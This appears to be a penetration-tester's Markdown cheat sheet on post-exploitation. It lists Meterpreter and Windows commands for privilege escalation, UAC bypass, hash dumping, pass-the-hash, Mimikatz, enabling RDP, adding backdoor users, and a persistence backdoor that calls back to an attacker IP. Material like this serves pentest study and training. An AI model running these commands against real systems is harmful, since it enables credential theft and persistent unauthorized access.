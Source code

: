 # Stable (Stabilize session)
## MSF Migrate
* `migrate` to a process that has higher chances of not being killed (e.g. from browser processes to system processes)
* `run <double_tabs>` - select meterpreter scripts

# Privileged (PrivEsc sessions)
## Windows Privilege Escalation
#### Metasploit
* `meterpreter> getsystem` - doesn't work when UAC is enabled and user is not admin
* `meterpreter> post/windows/gather/win_privs` - check UAC enabled
* `msf> search bypassuac` - `use` module, `set` configs and `exploit`
  * `meterpreter> getsystem` - will work if user on the new session is admin (with UAC enabled also)
* `meterpreter> use incognito` - use commands from this module (e.g. _list_tokens_)

#### General
* unquoted service paths
  * `wmic service get name,displayname,pathname,startmode | findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` - find unquoted services
  * `msf> use exploit/windows/local/trusted_service_path` - module for exploiting unquoted path vulnerable instances

## Linux Privilege Escalation
* SUDO - https://gtfobins.github.io/
* SUID - https://gtfobins.github.io/#+suid
* Replace executable
* crontab
* root squashing

# Persistent (maintaining access)
## Hashes
* `meterpreter> run hashdump` - if it crashes (elevate privileges or migrate to another process)
* `meterpreter> run post/windows/gather/smart_hashdump`
* pass-the-hash -> `use exploit/windows/smb/psexec` - works with administrator account (possible issues with users in Admin group, but not Administrator)
  * if no access to admin shares (Access_Denied in msf for psexec) - `meterpreter> reg setval -k 'HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System' -v LocalAccountTokenFilterPolicy -t REG_DWORD -d 1` and rerun psexec
* pass-the-hash over RDP -> `xfreerdp /u:<user> /d:<domain> /pth:<token> /v:<target>`

#### Mimikatz
* `sysinfo` - check on which processes meterpreter runs. It needs to be x64 for Mimikatz
* `ps -A x86_64 -s` list SYSTEM processes on x64 architecture
* `migrate <PID>` - migrate to a x64 processes
* `load mimikatz`

## Enable RDP service
* `net start` - check enabled services
* `wmic service where 'Caption like "Remote%" and started=true' get Caption` - check enabled remote services
* `meterpreter> <service_manager/enum_services>`
* `meterpreter> run getui -e << -u <new_username> -p <new_password>>>` - enable RDP
* `net localgroup "<RDP-Group-With-Allow-Perm>" <user> /add` - add user to the group allowed to RDP connections

## Backdoor
* `run persistence -A -X -i 5 -p <port> -r <attacker_IP>` - works only on Windows
* start `exploit/multi/handler` with the above configs (port/IP/payload)

## New Users
* `net user <username> <passowrd> /add` - adds new user
* `net localgroup "<group_name>" <username> /add` - adds existing user to a specific group that allows external connections (RDP, telnet, ssh etc.)

## DLL Hijacking (Windows)
* abuses the __DLL Search Order__
1. Directory from where the app is running
2. C:\Windows\System32 directory
3. C:\Windows\System directory
4. C:\Windows directory
5. Current directory at the time of execution
6. Any directory specified in %PATH%


## Cool Resources
* https://wiki.zacheller.dev/pentest/post-exploitation/maintaining-access
